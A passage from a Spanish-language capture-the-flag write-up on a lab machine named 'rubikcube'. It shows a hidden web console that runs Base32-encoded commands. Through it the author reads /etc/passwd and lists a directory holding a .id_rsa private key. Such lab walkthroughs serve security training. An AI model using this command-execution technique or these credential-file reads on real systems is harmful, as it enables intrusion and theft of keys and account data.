 Vemos que nos esta eliminando la parte de `administration`, pero si se lo añadimos veremos que funciona:

```
URL = http://rubikcube.dl/administration/myconsole.php
```

Veremos como una consola que nos indica que podremos ejecutar comandos, pero de forma codificada, por lo que vamos a probar a codificarlo en `Base32` y realizando el siguiente comando:

```shell
cat /etc/passwd
```

> Codificado

```
MNQXIIBPMV2GGL3QMFZXG53E
```

Info:

```

Salida del Comando:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
luisillo:x:1001:1001::/home/luisillo:/bin/sh
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
```

Vemos que funciona perfectamente, pero si hacemos un simple `ls -la` veremos lo siguiente:

```
Salida del Comando:

total 40
drwxr-xr-x 1 root root 4096 Aug 30  2024 .
drwxr-xr-x 1 root root 4096 Aug 30  2024 ..
-rwxr-xr-x 1 root root 3389 Aug 30  2024 .id_rsa
-rw-r--r-- 1 root root 6665 Aug 30  2024 configuration.php
drwxr-xr-x 2 root root 4096 Aug 30  2024 img
-rw-r--r-- 1 root root 5460 Aug 30  2024 index.php
-rw-r--r-- 1 root root 3509 Aug 30  2024 myconsole.php
-rw-r--r-- 1 root root 1825 Aug 30  2024 styles.css
```
